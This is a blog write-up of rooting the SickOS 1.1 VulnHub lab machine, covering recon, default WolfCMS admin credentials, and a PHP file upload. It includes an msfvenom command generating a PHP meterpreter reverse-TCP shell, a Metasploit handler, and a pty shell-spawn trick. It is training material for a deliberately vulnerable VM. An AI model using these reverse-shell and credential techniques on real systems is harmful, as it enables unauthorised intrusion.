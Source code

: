 ```yaml
---
layout:		post
title:  	"SickOS 1.1"
date: 		2018-03-06 16:00:00 +0800
summary:	Today we are going to get root on SickOS 1.1, a VulnHub VM.
categories:	vulnhub sickos
---
```


Hey everyone, today we have a VulnHub VM, <a href="https://www.vulnhub.com/entry/sickos-11,132/">sickOS</a> that we are going to get root on. 

The description given is "This CTF gives a clear analogy how hacking strategies can be performed on a network to compromise it in a safe environment. This vm is very similar to labs I faced in OSCP. The objective being to compromise the network/machine and gain Administrative/root privileges on them."

Being similar to an OSCP is nice to know! Let's get started. 

![Login](/assets/sickos/login.PNG){: .center-image }

Here is what you see when you power on the sickOS VM. So as always, let's move over to our Kali machine and nmap the network and find sickOS's IP.

We've got ports  22 and 3128 open and port 8080 closed. Let's launch firefox and see what happens if we go to the IP address.

Connection timed out, that's no good. Let's try to proxy using the squid-http open port and refresh.

![blehhh](/assets/sickos/blehhh.PNG){: .center-image }

Well that's seemed to work. So squid is running on this server. 

Okay, let's use Nikto to find out if we've got any vulnerabilities we can use!

![nikto](/assets/sickos/nikto.PNG){: .center-image }

Okay! There are a few exploits we could use, shellshock looks especially interesting! But first I'm going to look at the robots.txt

![wolfcms](/assets/sickos/wolfcms.PNG){: .center-image }

There's mention of a "wolfcms", let's see if that comes up for us.

![wolfcms landing](/assets/sickos/wolfcms_landing.PNG){: .center-image }

WolfCMS is a Content Management System, neat. With Content Management must come an administrator login right? Let's head over to DuckDuckGo and find out how to log in to WolfCMS.

Appending /?admin/ works, now we could try find a way to crack this login <u><i>OR</i></u> we could try the handy "admin" "password" or "admin" "admin" before we get ahead of ourselves.

![wolfcms admin](/assets/sickos/wolfcmsadmin.PNG){: .center-image }

Yep, admin admin strikes again. Thanks lazy admins! Let's go to the files tab and hope we can upload some files.

![wolfcms files](/assets/sickos/wolfcms_files.PNG){: .center-image }

It seems like it's letting us do it, let's upload a php script to try get a reverse shell going. First, we need to make the php script with MSFvenom

Using:

{% highlight ruby %}
msfvenom -p php/meterpreter/reverse_tcp lhost=**HOST IP ADDRESS** lport=**whichever port you want** -f raw
{% endhighlight %}

we can make a php script to open a reverse tcp to get us in to open a reverse shell.

Now that we've got the php file uploaded, we need to make a session on our Kali box so when we activate it on the web server, it handshakes and we can make our reverse shell. 

We are making a session in Metasploit, using the exploit/multi/handler and using the php/meterpreter/reverse_tcp (as before when making the script) specifying the same host and port we specified in the php script! 

![msf metasploit](/assets/sickos/msf_metasploit.PNG){: .center-image }

Now we go to the web server where our php script is located and run it! 

![metasploit session](/assets/sickos/metasploit_session.PNG){: .center-image }

The session has started!! Let's use a nifty python trick and get into bash on the web server.

{% highlight ruby %}
echo "import pty; pty.spawn('/bin/bash')" > /tmp/aaaa.py
python /tmp/aaaa.py
{% endhighlight %}


![bash shell](/assets/sickos/bash_shell.PNG){: .center-image }

We have bash! much easier to work with. 

![file list](/assets/sickos/filelist.PNG){: .center-image }

Our user is www-data and I've now changed directory and listed the files, config.php looks like the most interesting file at the moment so I'll cat into that and have a read

![sql username pass](/assets/sickos/sqlusernamepass.PNG){: .center-image }

And straight away we have a password, let's try and get into the account!

![loggedin sickos](/assets/sickos/loggedinsickos.PNG){: .center-image }

Okay, now finally let's get root and show the flag!

![root](/assets/sickos/root.PNG){: .center-image }

Thanks guys, three machines down! I'll try get another post out within a week or so!

